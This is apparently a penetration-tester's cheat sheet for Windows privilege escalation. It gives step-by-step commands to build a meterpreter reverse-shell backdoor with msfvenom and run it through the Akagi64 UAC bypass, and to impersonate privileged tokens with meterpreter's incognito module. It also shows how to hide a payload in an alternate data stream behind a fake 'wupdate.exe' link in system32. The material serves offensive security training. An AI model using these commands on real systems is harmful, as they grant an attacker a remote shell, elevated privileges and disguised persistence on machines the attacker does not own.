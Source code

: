### Bypassing UAC

```bash
##Create a payload with msfvenom
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$localIP LPORT=$localPort -f exe > backdoor.exe

##Set the same payload in msfv multi/handler
set payload windows/meterpreter/reverse_tcp

##Upload the backdoor to the target from MSF
upload /directory/backdoor.exe

##Upload Akagi64
upload Desktop/tools/UACME/Akagi64.exe

##Open a shell session on the target and run the backdoor through akagi64 with option 23
C:\Temp>.\Akagi64.exe 23 C:\Temp\backdoor.exe

##This session should then be caught in our multi/handler with elevated privs
##Why key 23? 
##Key 23 is recommended to test out since it has worked quite well in the past
```

### Access token impersonation aka Potato attacks

```bash
##Check the privs in meterpreter
getprivs

##The following are the privileges that are required for impersonation attacks. We need at least one of these
#This allows a user to impersonate tokens.
SeAssignPrimaryToken
#This allows a user to create an arbitrary token with administrative privileges.
SeCreateToken
#This allows a user to create a process under the security context of another user typically with administrative privileges.
SeImpersonatePrivilege

##Loading up the incognito module in meterpreter
load incognito

##Listing available tokens
list_tokens -u

##Impersonating a token
impersonate_token "DOMAIN\User"
#Recommended to migrate to another process with NTAUTH after this.
```

```bash
##Hiding winpeas (or any file for that matter) in an alternate data stream
type payload.exe > sometextfile.txt:winpeas.exe

##Creating a link to the payload that runs every time a command is triggered
#Inside system32 on windows (elevated)
mklink wupdate.exe C:\Temp\sometextfile.txt:winpeas.exe
```
